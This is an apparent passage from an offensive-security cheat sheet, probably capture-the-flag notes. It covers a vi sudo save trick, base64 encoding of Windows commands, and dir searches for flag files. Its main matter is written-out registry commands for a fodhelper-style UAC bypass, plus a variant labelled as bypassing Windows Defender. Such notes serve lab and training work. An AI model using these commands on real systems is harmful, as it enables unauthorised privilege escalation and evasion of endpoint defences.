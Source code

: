 ##### vi

```c
:w !sudo tee %    # save file with elevated privileges without exiting
```

##### Windows Command Formatting

```c
echo "<COMMAND>" | iconv -f UTF-8 -t UTF-16LE | base64 -w0
```

#### Microsoft Windows

##### dir

```c
dir /a
dir /a:d
dir /a:h
dir flag* /s /p
dir /s /b *.log
```

##### Bypass UAC

```c
New-Item “HKCU:\Software\Classes\ms-settings\Shell\Open\command” -Force
New-ItemProperty -Path “HKCU:\Software\Classes\ms-settings\Shell\Open\command” -Name “DelegateExecute” -Value “” -Force
Set-ItemProperty -Path “HKCU:\Software\Classes\ms-settings\Shell\Open\command” -Name “(default)” -Value <COMMAND> -Force
```

To bypass Windows Defender.
Default Version name: `.thm`

```c
New-Item “HKCU:\Software\Classes\<VERSION NAME>\Shell\Open\command” -Force
Set-ItemProperty -Path “HKCU:\Software\Classes\<VERSION NAME>\Shell\Open\command” -Name “(default)” -Value <COMMAND> -Force

New-Item “HKCU:\Software\Classes\ms-settings\CurVer” -Force
Set-ItemProperty -Path “HKCU:\Software\Classes\ms-settings\CurVer” -Name “(default)” -Value <VERSION NAME> -Force
```

#### PHP Webserver

```c
sudo php -S 127.0.0.1:80
```

#### Ping

```c
ping -c 1 <RHOST>
ping -n 1 <RHOST>
```
